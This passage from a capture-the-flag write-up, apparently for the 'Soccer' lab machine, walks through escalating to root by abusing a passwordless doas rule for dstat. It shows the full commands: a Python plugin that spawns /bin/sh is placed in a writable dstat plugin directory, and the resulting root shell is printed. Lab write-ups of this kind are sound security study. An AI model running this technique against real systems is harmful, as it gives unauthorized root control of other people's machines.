 ```bash
player@soccer:~$ cat /usr/local/etc/doas.conf
permit nopass player as root cmd /usr/bin/dstat
```

I can find methodology to spawn a shell using `dstat`.

![](attachments/soccer_7.png)

I followed the instruction, but didn't work.

```bash
player@soccer:~$ mkdir -p ~/.dstat
player@soccer:~$ echo 'import os; os.execv("/bin/sh", ["sh"])' >~/.dstat/dstat_xxx.py
player@soccer:~$ doas /usr/bin/dstat --xxx
dstat: option --xxx not recognized, try dstat -h for a list of all the options
```

I refered a man page again:
https://linux.die.net/man/1/dstat

```markdown
Files
Paths that may contain external dstat_*.py plugins:

~/.dstat/
(path of binary)/plugins/
/usr/share/dstat/
/usr/local/share/dstat/
```

It says that there are more directories to include custom scripts.
Among the listed directories, `/usr/local/share/dstat` is writable by `player`.

```bash
player@soccer:/usr/local/share/dstat$ ls -al /usr/local/share/dstat/
total 8
drwxrwx--- 2 root player 4096 Dec 12  2022 .
drwxr-xr-x 6 root root   4096 Nov 17  2022 ..
```

Let's try again with this writable directory!

```bash
player@soccer:/usr/local/share/dstat$ doas /usr/bin/dstat --bokchee
/usr/bin/dstat:2619: DeprecationWarning: the imp module is deprecated in favour of importlib; see the module's documentation for alternative uses
  import imp
# id
uid=0(root) gid=0(root) groups=0(root)
```
